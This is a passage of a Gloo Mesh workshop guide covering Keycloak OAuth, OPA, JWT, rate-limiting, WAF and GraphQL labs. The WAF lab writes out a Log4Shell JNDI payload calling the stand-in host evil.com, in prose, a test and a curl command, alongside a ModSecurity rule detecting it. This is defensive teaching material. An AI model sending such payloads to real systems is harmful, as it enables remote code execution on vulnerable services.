curl -m 2 -H "Authorization: Bearer ${KEYCLOAK_TOKEN}" -X PUT -H "Content-Type: application/json" -d '{"serviceAccountsEnabled": true, "directAccessGrantsEnabled": true, "authorizationServicesEnabled": true, "redirectUris": ["'https://${ENDPOINT_HTTPS_GW_CLUSTER1}'/callback","'https://${ENDPOINT_HTTPS_GW_CLUSTER1}'/*","'https://${ENDPOINT_HTTPS_GW_CLUSTER1}'/get"]}' $KEYCLOAK_URL/admin/realms/master/clients/${id}

# Add the group attribute in the JWT token returned by Keycloak
curl -m 2 -H "Authorization: Bearer ${KEYCLOAK_TOKEN}" -X POST -H "Content-Type: application/json" -d '{"name": "group", "protocol": "openid-connect", "protocolMapper": "oidc-usermodel-attribute-mapper", "config": {"claim.name": "group", "jsonType.label": "String", "user.attribute": "group", "id.token.claim": "true", "access.token.claim": "true"}}' $KEYCLOAK_URL/admin/realms/master/clients/${id}/protocol-mappers/models

# Create first user
curl -m 2 -H "Authorization: Bearer ${KEYCLOAK_TOKEN}" -X POST -H "Content-Type: application/json" -d '{"username": "user1", "email": "user1@example.com", "enabled": true, "attributes": {"group": "users"}, "credentials": [{"type": "password", "value": "password", "temporary": false}]}' $KEYCLOAK_URL/admin/realms/master/users

# Create second user
curl -m 2 -H "Authorization: Bearer ${KEYCLOAK_TOKEN}" -X POST -H "Content-Type: application/json" -d '{"username": "user2", "email": "user2@solo.io", "enabled": true, "attributes": {"group": "users"}, "credentials": [{"type": "password", "value": "password", "temporary": false}]}' $KEYCLOAK_URL/admin/realms/master/users
```

> **Note:** If you get a *Not Authorized* error, please, re-run this command and continue from the command started to fail:

```
KEYCLOAK_TOKEN=$(curl -m 2 -d "client_id=admin-cli" -d "username=admin" -d "password=admin" -d "grant_type=password" "$KEYCLOAK_URL/realms/master/protocol/openid-connect/token" | jq -r .access_token)
```


## Lab 19 - Securing the access with OAuth <a name="lab-19---securing-the-access-with-oauth-"></a>
[](https://youtu.be/fKZjr0AYxYs "Video Link")


In this step, we're going to secure the access to the `httpbin` service using OAuth.

First, we need to create a Kubernetes Secret that contains the OIDC secret:

```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: v1
kind: Secret
metadata:
  name: oauth
  namespace: httpbin
type: extauth.solo.io/oauth
data:
  client-secret: $(echo -n ${KEYCLOAK_SECRET} | base64)
EOF
```

Then, you need to create an `ExtAuthPolicy`, which is a CRD that contains authentication information: 

```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: security.policy.gloo.solo.io/v2
kind: ExtAuthPolicy
metadata:
  name: httpbin
  namespace: httpbin
spec:
  applyToRoutes:
  - route:
      labels:
        oauth: "true"
  config:
    server:
      name: ext-auth-server
      namespace: gloo-mesh-addons
      cluster: cluster1
    glooAuth:
      configs:
      - oauth2:
          oidcAuthorizationCode:
            appUrl: "https://${ENDPOINT_HTTPS_GW_CLUSTER1}"
            callbackPath: /callback
            clientId: ${KEYCLOAK_CLIENT}
            clientSecretRef:
              name: oauth
              namespace: httpbin
            issuerUrl: "${KEYCLOAK_URL}/realms/master/"
            session:
              failOnFetchFailure: true
              redis:
                cookieName: keycloak-session
                options:
                  host: redis:6379
            scopes:
            - email
            headers:
              idTokenHeader: jwt
EOF
```

Finally, you need to update the `RouteTable` to use this `ExtAuthPolicy`:

```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: networking.gloo.solo.io/v2
kind: RouteTable
metadata:
  name: httpbin
  namespace: httpbin
  labels:
    expose: "true"
spec:
  http:
    - name: httpbin
      labels:
        oauth: "true"
      matchers:
      - uri:
          exact: /get
      - uri:
          exact: /logout
      - uri:
          prefix: /callback
      forwardTo:
        destinations:
        - ref:
            name: in-mesh
            namespace: httpbin
            cluster: cluster1
          port:
            number: 8000
EOF
```

<!--bash
cat <<'EOF' > ./test.js
const chaiExec = require("@jsdevtools/chai-exec");
const helpersHttp = require('./tests/chai-http');
var chai = require('chai');
var expect = chai.expect;

describe("Authentication is working properly", function() {
  let user = 'user2';
  let password = 'password';
  let keycloak_client_id = chaiExec("kubectl --context " + process.env.CLUSTER1 + " -n httpbin get extauthpolicy httpbin -o jsonpath='{.spec.config.glooAuth.configs[0].oauth2.oidcAuthorizationCode.clientId}'").stdout.replaceAll("'", "");
  let keycloak_client_secret_base64 = chaiExec("kubectl --context " + process.env.CLUSTER1 + " -n httpbin get secret oauth -o jsonpath='{.data.client-secret}'").stdout.replaceAll("'", "");
  let buff = new Buffer(keycloak_client_secret_base64, 'base64');
  let keycloak_client_secret = buff.toString('ascii');
  let keycloak_token = JSON.parse(chaiExec('curl -d "client_id=' + keycloak_client_id + '" -d "client_secret=' + keycloak_client_secret + '" -d "scope=openid" -d "username=' + user + '" -d "password=' + password + '" -d "grant_type=password" "' + process.env.KEYCLOAK_URL +'/realms/master/protocol/openid-connect/token"').stdout.replaceAll("'", "")).id_token;
  it("The httpbin page isn't accessible without authenticating", () => helpersHttp.checkURL({ host: 'https://' + process.env.ENDPOINT_HTTPS_GW_CLUSTER1, path: '/get', retCode: 302 }));
  it("The httpbin page is accessible after authenticating", () => helpersHttp.checkURL({ host: 'https://' + process.env.ENDPOINT_HTTPS_GW_CLUSTER1, path: '/get', headers: [{key: 'Authorization', value: 'Bearer ' + keycloak_token}], retCode: 200 }));
});

EOF
echo "executing test dist/gloo-mesh-2-0-all-no-ilm-beta/build/templates/steps/apps/httpbin/gateway-extauth-oauth/tests/authentication.test.js.liquid"
tempfile=$(mktemp)
echo "saving errors in ${tempfile}"
mocha ./test.js --timeout 10000 --retries=50 --bail 2> ${tempfile} || { cat ${tempfile} && exit 1; }
-->

If you refresh the web browser, you will be redirected to the authentication page.

If you use the username `user1` and the password `password` you should be redirected back to the `httpbin` application.

You can also perform authorization using OPA.

First, you need to create a `ConfigMap` with the policy written in rego:

```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: v1
kind: ConfigMap
metadata:
  name: allow-solo-email-users
  namespace: httpbin
data:
  policy.rego: |-
    package test

    default allow = false

    allow {
        [header, payload, signature] = io.jwt.decode(input.state.jwt)
        endswith(payload["email"], "@solo.io")
    }
EOF
```

Then, you need to update the `ExtAuthPolicy` object to add the authorization step:

```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: security.policy.gloo.solo.io/v2
kind: ExtAuthPolicy
metadata:
  name: httpbin
  namespace: httpbin
spec:
  applyToRoutes:
  - route:
      labels:
        oauth: "true"
  config:
    server:
      name: ext-auth-server
      namespace: gloo-mesh-addons
      cluster: cluster1
    glooAuth:
      configs:
      - oauth2:
          oidcAuthorizationCode:
            appUrl: "https://${ENDPOINT_HTTPS_GW_CLUSTER1}"
            callbackPath: /callback
            clientId: ${KEYCLOAK_CLIENT}
            clientSecretRef:
              name: oauth
              namespace: httpbin
            issuerUrl: "${KEYCLOAK_URL}/realms/master/"
            logoutPath: /logout
            afterLogoutUrl: "https://${ENDPOINT_HTTPS_GW_CLUSTER1}/get"
            session:
              failOnFetchFailure: true
              redis:
                cookieName: keycloak-session
                options:
                  host: redis:6379
            scopes:
            - email
            headers:
              idTokenHeader: jwt
      - opaAuth:
          modules:
          - name: allow-solo-email-users
            namespace: httpbin
          query: "data.test.allow == true"
EOF
```

Refresh the web page. `user1` shouldn't be allowed to access it anymore since the user's email ends with `@example.com`.
If you open the browser in incognito and login using the username `user2` and the password `password`, you will now be able to access it since the user's email ends with `@solo.io`.

This diagram shows the flow of the request (with the Istio ingress gateway leveraging the `extauth` Pod to authorize the request):


## Lab 20 - Use the JWT filter to create headers from claims <a name="lab-20---use-the-jwt-filter-to-create-headers-from-claims-"></a>
[](https://youtu.be/bpFKbhUIwgM "Video Link")


In this step, we're going to validate the JWT token and to create a new header from the `email` claim.

Keycloak is running outside of the Service Mesh, so we need to define an `ExternalService` and its associated `ExternalEndpoint`:

Let's start by the latter:

```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: networking.gloo.solo.io/v2
kind: ExternalEndpoint
metadata:
  name: keycloak
  namespace: httpbin
  labels:
    host: keycloak
spec:
  address: ${HOST_KEYCLOAK}
  ports:
  - name: http
    number: ${PORT_KEYCLOAK}
EOF
```

Then we can create the former:

```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: networking.gloo.solo.io/v2
kind: ExternalService
metadata:
  name: keycloak
  namespace: httpbin
  labels:
    expose: "true"
spec:
  hosts:
  - keycloak
  ports:
  - name: http
    number: ${PORT_KEYCLOAK}
    protocol: HTTP
  selector:
    host: keycloak
EOF
```

Now, we can create a `JWTPolicy` to extract the claim.

Create the policy:

```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: security.policy.gloo.solo.io/v2
kind: JWTPolicy
metadata:
  name: httpbin
  namespace: httpbin
spec:
  applyToRoutes:
  - route:
      labels:
        oauth: "true"
  config:
    phase:
      postAuthz:
        priority: 1
    providers:
      keycloak:
        issuer: ${KEYCLOAK_URL}/realms/master
        tokenSource:
          headers:
          - name: jwt
        remote:
          url: ${KEYCLOAK_URL}/realms/master/protocol/openid-connect/certs
          destinationRef:
            kind: EXTERNAL_SERVICE
            ref:
              name: keycloak
            port:
              number: ${PORT_KEYCLOAK}
        claimsToHeaders:
        - claim: email
          header: X-Email
EOF
```

You can see that it will be applied to our existing route and also that we want to execute it after performing the external authentication (to have access to the JWT token).

If you refresh the web page, you should see a new `X-Email` header added to the request with the value `user2@solo.io`

<!--bash
cat <<'EOF' > ./test.js
const chaiExec = require("@jsdevtools/chai-exec");
const helpersHttp = require('./tests/chai-http');
var chai = require('chai');
var expect = chai.expect;

describe("Claim to header is working properly", function() {
  let user = 'user2';
  let password = 'password';
  let keycloak_client_id = chaiExec("kubectl --context " + process.env.CLUSTER1 + " -n httpbin get extauthpolicy httpbin -o jsonpath='{.spec.config.glooAuth.configs[0].oauth2.oidcAuthorizationCode.clientId}'").stdout.replaceAll("'", "");
  let keycloak_client_secret_base64 = chaiExec("kubectl --context " + process.env.CLUSTER1 + " -n httpbin get secret oauth -o jsonpath='{.data.client-secret}'").stdout.replaceAll("'", "");
  let buff = new Buffer(keycloak_client_secret_base64, 'base64');
  let keycloak_client_secret = buff.toString('ascii');
  let keycloak_token = JSON.parse(chaiExec('curl -d "client_id=' + keycloak_client_id + '" -d "client_secret=' + keycloak_client_secret + '" -d "scope=openid" -d "username=' + user + '" -d "password=' + password + '" -d "grant_type=password" "' + process.env.KEYCLOAK_URL +'/realms/master/protocol/openid-connect/token"').stdout.replaceAll("'", "")).id_token;
  it('The new header has been added', () => helpersHttp.checkBody({ host: 'https://' + process.env.ENDPOINT_HTTPS_GW_CLUSTER1, path: '/get', headers: [{key: 'Authorization', value: 'Bearer ' + keycloak_token}], body: '"X-Email": "user2@solo.io"' }));
});

EOF
echo "executing test dist/gloo-mesh-2-0-all-no-ilm-beta/build/templates/steps/apps/httpbin/gateway-jwt/tests/header-added.test.js.liquid"
tempfile=$(mktemp)
echo "saving errors in ${tempfile}"
mocha ./test.js --timeout 10000 --retries=50 --bail 2> ${tempfile} || { cat ${tempfile} && exit 1; }
-->


## Lab 21 - Use the transformation filter to manipulate headers <a name="lab-21---use-the-transformation-filter-to-manipulate-headers-"></a>


In this step, we're going to use a regular expression to extract a part of an existing header and to create a new one:

Let's create a `TransformationPolicy` to extract the claim.

```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: trafficcontrol.policy.gloo.solo.io/v2
kind: TransformationPolicy
metadata:
  name: modify-header
  namespace: httpbin
spec:
  applyToRoutes:
  - route:
      labels:
        oauth: "true"
  config:
    phase:
      postAuthz:
        priority: 2
    request:
      injaTemplate:
        extractors:
          organization:
            header: 'X-Email'
            regex: '.*@(.*)$'
            subgroup: 1
        headers:
          x-organization:
            text: "{{ organization }}"
EOF
```

You can see that it will be applied to our existing route and also that we want to execute it after performing the external authentication (to have access to the JWT token).

If you refresh the web page, you should see a new `X-Organization` header added to the request with the value `solo.io`

<!--bash
cat <<'EOF' > ./test.js
const chaiExec = require("@jsdevtools/chai-exec");
const helpersHttp = require('./tests/chai-http');
var chai = require('chai');
var expect = chai.expect;

describe("Tranformation is working properly", function() {
  let user = 'user2';
  let password = 'password';
  let keycloak_client_id = chaiExec("kubectl --context " + process.env.CLUSTER1 + " -n httpbin get extauthpolicy httpbin -o jsonpath='{.spec.config.glooAuth.configs[0].oauth2.oidcAuthorizationCode.clientId}'").stdout.replaceAll("'", "");
  let keycloak_client_secret_base64 = chaiExec("kubectl --context " + process.env.CLUSTER1 + " -n httpbin get secret oauth -o jsonpath='{.data.client-secret}'").stdout.replaceAll("'", "");
  let buff = new Buffer(keycloak_client_secret_base64, 'base64');
  let keycloak_client_secret = buff.toString('ascii');
  let keycloak_token = JSON.parse(chaiExec('curl -d "client_id=' + keycloak_client_id + '" -d "client_secret=' + keycloak_client_secret + '" -d "scope=openid" -d "username=' + user + '" -d "password=' + password + '" -d "grant_type=password" "' + process.env.KEYCLOAK_URL +'/realms/master/protocol/openid-connect/token"').stdout.replaceAll("'", "")).id_token;
  it('The new header has been added', () => helpersHttp.checkBody({ host: 'https://' + process.env.ENDPOINT_HTTPS_GW_CLUSTER1, path: '/get', headers: [{key: 'Authorization', value: 'Bearer ' + keycloak_token}], body: '"X-Organization": "solo.io"' }));
});

EOF
echo "executing test dist/gloo-mesh-2-0-all-no-ilm-beta/build/templates/steps/apps/httpbin/gateway-transformation/tests/header-added.test.js.liquid"
tempfile=$(mktemp)
echo "saving errors in ${tempfile}"
mocha ./test.js --timeout 10000 --retries=50 --bail 2> ${tempfile} || { cat ${tempfile} && exit 1; }
-->


## Lab 22 - Apply rate limiting to the Gateway <a name="lab-22---apply-rate-limiting-to-the-gateway-"></a>


In this step, we're going to apply rate limiting to the Gateway to only allow 3 requests per minute for the users of the `solo.io` organization.

First, we need to create a `RateLimitServerConfig` object to define the limits based on the descriptors we will use later:

```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: admin.gloo.solo.io/v2
kind: RateLimitServerConfig
metadata:
  name: httpbin
  namespace: httpbin
spec:
  destinationServers:
  - ref:
      cluster: cluster1
      name: rate-limiter
      namespace: gloo-mesh-addons
    port:
      name: grpc
  raw:
    setDescriptors:
      - simpleDescriptors:
          - key: organization
            value: solo.io
        rateLimit:
          requestsPerUnit: 3
          unit: MINUTE
EOF
```

After that, we need to create a `RateLimitPolicy` object to define the descriptors:

```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: trafficcontrol.policy.gloo.solo.io/v2
kind: RateLimitPolicy
metadata:
  name: httpbin
  namespace: httpbin
spec:
  applyToRoutes:
  - route:
      labels:
        ratelimited: "true"
  config:
    serverSettings:
      name: rate-limit-server
      namespace: gloo-mesh-addons
      cluster: cluster1
    raw:
      rateLimits:
      - setActions:
        - requestHeaders:
            descriptorKey: organization
            headerName: X-Organization
    ratelimitServerConfig:
      name: httpbin
      namespace: httpbin
      cluster: cluster1
    phase:
      postAuthz:
        priority: 3

EOF
```

Finally, you need to update the `RouteTable` to use this `RateLimitPolicy`:

```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: networking.gloo.solo.io/v2
kind: RouteTable
metadata:
  name: httpbin
  namespace: httpbin
  labels:
    expose: "true"
spec:
  http:
    - name: httpbin
      labels:
        oauth: "true"
        ratelimited: "true"
      matchers:
      - uri:
          exact: /get
      - uri:
          prefix: /callback
      forwardTo:
        destinations:
        - ref:
            name: in-mesh
            namespace: httpbin
          port:
            number: 8000
EOF
```

Refresh the web page multiple times.

<!--bash
cat <<'EOF' > ./test.js
const chaiExec = require("@jsdevtools/chai-exec");
const helpersHttp = require('./tests/chai-http');
var chai = require('chai');
var expect = chai.expect;

describe("Rate limiting is working properly", function() {
  let user = 'user2';
  let password = 'password';
  let keycloak_client_id = chaiExec("kubectl --context " + process.env.CLUSTER1 + " -n httpbin get extauthpolicy httpbin -o jsonpath='{.spec.config.glooAuth.configs[0].oauth2.oidcAuthorizationCode.clientId}'").stdout.replaceAll("'", "");
  let keycloak_client_secret_base64 = chaiExec("kubectl --context " + process.env.CLUSTER1 + " -n httpbin get secret oauth -o jsonpath='{.data.client-secret}'").stdout.replaceAll("'", "");
  let buff = new Buffer(keycloak_client_secret_base64, 'base64');
  let keycloak_client_secret = buff.toString('ascii');
  let keycloak_token = JSON.parse(chaiExec('curl -d "client_id=' + keycloak_client_id + '" -d "client_secret=' + keycloak_client_secret + '" -d "scope=openid" -d "username=' + user + '" -d "password=' + password + '" -d "grant_type=password" "' + process.env.KEYCLOAK_URL +'/realms/master/protocol/openid-connect/token"').stdout.replaceAll("'", "")).id_token;
  it('The httpbin page should be rate limited', () => helpersHttp.checkURL({ host: 'https://' + process.env.ENDPOINT_HTTPS_GW_CLUSTER1, path: '/get', headers: [{key: 'Authorization', value: 'Bearer ' + keycloak_token}], retCode: 429 }));
});

EOF
echo "executing test dist/gloo-mesh-2-0-all-no-ilm-beta/build/templates/steps/apps/httpbin/gateway-ratelimiting/tests/rate-limited.test.js.liquid"
tempfile=$(mktemp)
echo "saving errors in ${tempfile}"
mocha ./test.js --timeout 10000 --retries=50 --bail 2> ${tempfile} || { cat ${tempfile} && exit 1; }
-->

You should get a `200` response code the first 3 time and a `429` response code after.

This diagram shows the flow of the request (with the Istio ingress gateway leveraging the `rate limiter` Pod to determine if the request should be allowed):


Let's apply the original `RouteTable` yaml:
```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: networking.gloo.solo.io/v2
kind: RouteTable
metadata:
  name: httpbin
  namespace: httpbin
  labels:
    expose: "true"
spec:
  http:
    - name: httpbin
      matchers:
      - uri:
          exact: /get
      forwardTo:
        destinations:
        - ref:
            name: in-mesh
            namespace: httpbin
          port:
            number: 8000
EOF
```

And also delete the different objects we've created:
```bash
kubectl --context ${CLUSTER1} -n httpbin delete ratelimitpolicy httpbin
kubectl --context ${CLUSTER1} -n httpbin delete ratelimitserverconfig httpbin
```


## Lab 23 - Use the Web Application Firewall filter <a name="lab-23---use-the-web-application-firewall-filter-"></a>
[](https://youtu.be/9q2TxtBDqrA "Video Link")


A web application firewall (WAF) protects web applications by monitoring, filtering, and blocking potentially harmful traffic and attacks that can overtake or exploit them.

Gloo Mesh includes the ability to enable the ModSecurity Web Application Firewall for any incoming and outgoing HTTP connections. 

An example of how using Gloo Mesh we'd easily mitigate the recent Log4Shell vulnerability ([CVE-2021-44228](https://nvd.nist.gov/vuln/detail/CVE-2021-44228)), which for many enterprises was a major ordeal that took weeks and months of updating all services.

The Log4Shell vulnerability impacted all Java applications that used the log4j library (common library used for logging) and that exposed an endpoint. You could exploit the vulnerability by simply making a request with a specific header. In the example below, we will show how to protect your services against the Log4Shell exploit. 

Using the Web Application Firewall capabilities you can reject requests containing such headers. 

Log4Shell attacks operate by passing in a Log4j expression that could trigger a lookup to a remote server, like a JNDI identity service. The malicious expression might look something like this: `${jndi:ldap://evil.com/x}`. It might be passed in to the service via a header, a request argument, or a request payload. What the attacker is counting on is that the vulnerable system will log that string using log4j without checking it. Thats what triggers the destructive JNDI lookup and the ultimate execution of malicious code.

Create the WAF policy:

```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: security.policy.gloo.solo.io/v2
kind: WAFPolicy
metadata:
  name: log4shell
  namespace: httpbin
spec:
  applyToRoutes:
  - route:
      labels:
        waf: "true"
  config:
    disableCoreRuleSet: true
    customInterventionMessage: 'Log4Shell malicious payload'
    customRuleSets:
    - ruleStr: |
        SecRuleEngine On
        SecRequestBodyAccess On
        SecRule REQUEST_LINE|ARGS|ARGS_NAMES|REQUEST_COOKIES|REQUEST_COOKIES_NAMES|REQUEST_BODY|REQUEST_HEADERS|XML:/*|XML://@*  
          "@rx \\\${jndi:(?:ldaps?|iiop|dns|rmi)://" 
          "id:1000,phase:2,deny,status:403,log,msg:'Potential Remote Command Execution: Log4j CVE-2021-44228'"
EOF
```

In this example, we're going to update the main `RouteTable` to enforce this policy for all the applications exposed through the gateway (in any workspace).

```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: networking.gloo.solo.io/v2
kind: RouteTable
metadata:
  name: main
  namespace: istio-gateways
spec:
  hosts:
    - '*'
  virtualGateways:
    - name: north-south-gw
      namespace: istio-gateways
      cluster: cluster1
  workloadSelectors: []
  http:
    - name: root
      labels:
        waf: "true"
      matchers:
      - uri:
          prefix: /
      delegate:
        routeTables:
          - labels:
              expose: "true"
        sortMethod: ROUTE_SPECIFICITY
EOF
```

<!--bash
cat <<'EOF' > ./test.js
const chaiExec = require("@jsdevtools/chai-exec");
const helpersHttp = require('./tests/chai-http');
var chai = require('chai');
var expect = chai.expect;

describe("WAF is working properly", function() {
  it('The request has been blocked', () => helpersHttp.checkBody({ host: 'https://' + process.env.ENDPOINT_HTTPS_GW_CLUSTER1, path: '/get', headers: [{key: 'x-my-header', value: '${jndi:ldap://evil.com/x}'}], body: 'Log4Shell malicious payload' }));
});

EOF
echo "executing test dist/gloo-mesh-2-0-all-no-ilm-beta/build/templates/steps/apps/httpbin/gateway-waf/tests/waf.test.js.liquid"
tempfile=$(mktemp)
echo "saving errors in ${tempfile}"
mocha ./test.js --timeout 10000 --retries=50 --bail 2> ${tempfile} || { cat ${tempfile} && exit 1; }
-->

Run the following command to simulate an attack:

```bash
curl -H "User-Agent: \${jndi:ldap://evil.com/x}" -k "https://${ENDPOINT_HTTPS_GW_CLUSTER1}/get" -i
```

The request should be rejected:

```,nocopy
HTTP/2 403 
content-length: 27
content-type: text/plain
date: Tue, 05 Apr 2022 10:20:06 GMT
server: istio-envoy

Log4Shell malicious payload
```


Let's apply the original `RouteTable` yaml:

```bash
kubectl --context ${CLUSTER1} apply -f - <<EOF
apiVersion: networking.gloo.solo.io/v2
kind: RouteTable
metadata:
  name: main
  namespace: istio-gateways
spec:
  hosts:
    - '*'
  virtualGateways:
    - name: north-south-gw
      namespace: istio-gateways
      cluster: cluster1
  workloadSelectors: []
  http:
    - name: root
      matchers:
      - uri:
          prefix: /
      delegate:
        routeTables:
          - labels:
              expose: "true"
        sortMethod: ROUTE_SPECIFICITY
EOF
```

And also delete the waf policy we've created:

```bash
kubectl --context ${CLUSTER1} -n httpbin delete wafpolicies.security.policy.gloo.solo.io log4shell
```


## Lab 24 - Expose the bookinfo application through GraphQL <a name="lab-24---expose-the-bookinfo-application-through-graphql-"></a>
[](https://youtu.be/ucVMxX8oFz0 "Video Link")

Gloo Mesh is enhancing the Istio Ingress Gateway to allow exposing some REST services as a GraphQL API.

First, you need to create an `ApiDoc` to define your GraphQL API:

```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: apimanagement.gloo.solo.io/v2
kind: ApiDoc
metadata:
  name: bookinfo-api-doc
  namespace: bookinfo-frontends
  labels:
    expose: "true"
spec:
  graphql:
    schemaDefinition: |-
      type Query {
        """Description of a book in HTML"""
        productsForHome: [Product] 
      }
      """Each book has a product entry"""
      type Product {
        """Unique identifier for books"""
        id: String
        """The book title"""
        title: String
        """Number of pages in the book"""
        pages: Int
        """Year the book was published"""
        year: Int
        """Description of a book in HTML"""
        descriptionHtml: String
        """List of reader reviews for this book. Queries the reviews REST service"""
        reviews: [Review]
        """List of reader ratings for this book. Queries the ratings REST service"""
        ratings: [Rating]
      }
      """A book review"""
      type Review {
        """Name of the reviewer"""
        reviewer: String
        """Review details"""
        text: String
        "Reviewer Rating, this field is provided by the reviews REST service, which queries the ratings REST service"
        rating: ReviewerRating
      }
      type ReviewerRating {
        stars: Int
        color: String
      }
      """A book rating"""
      type Rating {
        """Name of the user peforming the rating"""
        reviewer: String
        """Number of stars for this rating"""
        numStars: Int
      }
EOF
```

Then, you need to create a `GraphQLResolverMap` to define the resolvers:

```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: apimanagement.gloo.solo.io/v2
kind: GraphQLResolverMap
metadata:
  name: bookinfo-graphql-resolvers
  namespace: bookinfo-frontends
  labels:
    expose: "true"
spec:
  types:
    Query:
      fields:
        productsForHome:
          resolvers:
          - restResolver:
              destinations:
              - port:
                  number: 9080
                ref:
                  name: productpage
                  namespace: bookinfo-frontends
                  cluster: cluster1
              request:
                headers:
                  :path:
                    jq: '"/api/v1/products"'
    Product:
      fields:
        reviews:
          variables:
            parentVar:
              graphqlParent: {}
            resolverResultVar:
              resolverResult: {}
          resolvers:
          - restResolver:
              destinations:
              - port:
                  number: 9080
                ref:
                  name: reviews
                  namespace: bookinfo-backends
                  cluster: cluster1
              request:
                headers:
                  :path:
                    jq: '"/reviews/" + (.parentVar.id | tostring)'
            resolverResultTransform:
              jq: '.resolverResultVar.reviews'
        ratings:
          variables:
            parentVar:
              graphqlParent: {}
            resolverResultVar:
              resolverResult: {}
          resolvers:
          - restResolver:
              destinations:
              - port:
                  number: 9080
                ref:
                  name: ratings
                  namespace: bookinfo-backends
                  cluster: cluster1
              request:
                headers:
                  :path:
                    jq: '"/ratings/" + (.parentVar.id | tostring)'
            resolverResultTransform:
              jq: '.resolverResultVar.ratings | to_entries | map(.reviewer=.key | .numStars=.value | del(.key,.value))'
EOF
```

After that, you need to create an `ApiSchema` which references the `ApiDoc` and the `GraphQLResolverMap`:

```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: apimanagement.gloo.solo.io/v2
kind: GraphQLSchema
metadata:
  name: bookinfo-graphql-schema
  namespace: bookinfo-frontends
  labels:
    expose: "true"
spec:
  schemaRef:
    name: bookinfo-api-doc
    namespace: bookinfo-frontends
    clusterName: cluster1
  resolved:
    options: {}
    resolverMapRefs:
    - name: bookinfo-graphql-resolvers
      namespace: bookinfo-frontends
      clusterName: cluster1
EOF
```

Finally, you can create a `RouteTable` to expose the GraphQL API:

```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: networking.gloo.solo.io/v2
kind: RouteTable
metadata:
  name: graphql
  namespace: bookinfo-frontends
  labels:
    expose: "true"
spec:
  http:
  - graphql:
      schema:
        name: bookinfo-graphql-schema
        namespace: bookinfo-frontends
        clusterName: cluster1
    matchers:
    - uri:
        prefix: /graphql
    labels:
      graphql: "true"
EOF
```

Now, you can try to 

```bash
curl -k "https://${ENDPOINT_HTTPS_GW_CLUSTER1}/graphql" --data '{"query":" {productsForHome { title ratings {reviewer numStars}}}"}' | jq .
```

Here is the expected output:

```
{
  "data": {
    "productsForHome": [
      {
        "title": "The Comedy of Errors",
        "ratings": [
          {
            "reviewer": "Reviewer1",
            "numStars": 5
          },
          {
            "reviewer": "Reviewer2",
            "numStars": 4
          }
        ]
      }
    ]
  }
}
```

<!--bash
cat <<'EOF' > ./test.js
const chaiExec = require("@jsdevtools/chai-exec");
var chai = require('chai');
var expect = chai.expect;
chai.use(chaiExec);

afterEach(function (done) {
  if (this.currentTest.currentRetry() > 0) {
    process.stdout.write(".");
    setTimeout(done, 1000);
  } else {
    done();
  }
});

describe("GraphQL", function() {
  it('GraphQL query returning the expected output', function () {
    expect(process.env.ENDPOINT_HTTPS_GW_CLUSTER1).to.not.be.empty
    let command = `curl -ks "https://${process.env.ENDPOINT_HTTPS_GW_CLUSTER1}/graphql" --data '{"query":" {productsForHome { title ratings {reviewer numStars}}}"}'`
    let cli = chaiExec(command);
    expect(cli).to.exit.with.code(0);
    expect(cli).output.to.contain('{"data":{"productsForHome":[{"title":"The Comedy of Errors","ratings":[{"reviewer":"Reviewer1","numStars":5},{"reviewer":"Reviewer2","numStars":4}]}]}}');
  })
});
EOF
echo "executing test dist/gloo-mesh-2-0-all-no-ilm-beta/build/templates/steps/apps/bookinfo/gateway-graphql/tests/graphql.test.js.liquid"
tempfile=$(mktemp)
echo "saving errors in ${tempfile}"
mocha ./test.js --timeout 10000 --retries=50 --bail 2> ${tempfile} || { cat ${tempfile} && exit 1; }
-->

Create the following `CORSPolicy` to allow using the GraphQL explorer from the Gloo Mesh UI:

```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: security.policy.gloo.solo.io/v2
kind: CORSPolicy
metadata:
  name: graphql-explorer
  namespace: bookinfo-frontends
spec:
  applyToRoutes:
  - route:
      labels:
        graphql: "true"
  config:
    allowCredentials: true
    allowHeaders:
    - apollo-query-plan-experimental
    - content-type
    - x-apollo-tracing
    allowMethods:
    - POST
    allowOrigins:
    - regex: ".*"
EOF
```


## Lab 25 - Deploy the Amazon pod identity webhook <a name="lab-25---deploy-the-amazon-pod-identity-webhook-"></a>

To use the AWS Lambda integration, we need to deploy the Amazon EKS pod identity webhook.

A pre requisite is to install [Cert Manager](https://cert-manager.io/):

```bash
wget https://github.com/cert-manager/cert-manager/releases/download/v1.12.4/cert-manager.yaml
kubectl --context ${CLUSTER1} apply -f cert-manager.yaml
kubectl --context ${MGMT} apply -f cert-manager.yaml
kubectl --context ${MGMT} -n cert-manager rollout status deploy cert-manager
kubectl --context ${MGMT} -n cert-manager rollout status deploy cert-manager-cainjector
kubectl --context ${MGMT} -n cert-manager rollout status deploy cert-manager-webhook
kubectl --context ${CLUSTER1} -n cert-manager rollout status deploy cert-manager
kubectl --context ${CLUSTER1} -n cert-manager rollout status deploy cert-manager-cainjector
kubectl --context ${CLUSTER1} -n cert-manager rollout status deploy cert-manager-webhook
```

Now, you can install the Amazon EKS pod identity webhook:

```bash
kubectl --context ${CLUSTER1} apply -f data/steps/deploy-amazon-pod-identity-webhook
kubectl --context ${MGMT} apply -f data/steps/deploy-amazon-pod-identity-webhook
kubectl --context ${MGMT} rollout status deploy/pod-identity-webhook
kubectl --context ${CLUSTER1} rollout status deploy/pod-identity-webhook
```

<!--bash
cat <<'EOF' > ./test.js
const helpers = require('./tests/chai-exec');

describe("Amazon EKS pod identity webhook", () => {
